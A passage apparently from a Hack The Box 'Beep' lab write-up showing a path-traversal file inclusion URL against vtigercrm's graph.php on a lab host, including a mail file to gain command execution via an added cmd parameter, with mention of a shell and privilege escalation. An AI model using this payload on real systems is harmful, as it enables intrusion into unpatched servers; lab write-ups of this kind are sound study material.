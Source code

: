 
### Webshell

Now I can read that file with the LFI at:

    
    
    view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action
    

I’ll add `&cmd=id` to get execution:

![image-20210218154253978](https://0xdfimages.gitlab.io/img/image-20210218154253978.png)

I can turn that into a shell, and privesc just like in method one.

[](/2021/02/23/htb-beep.html)

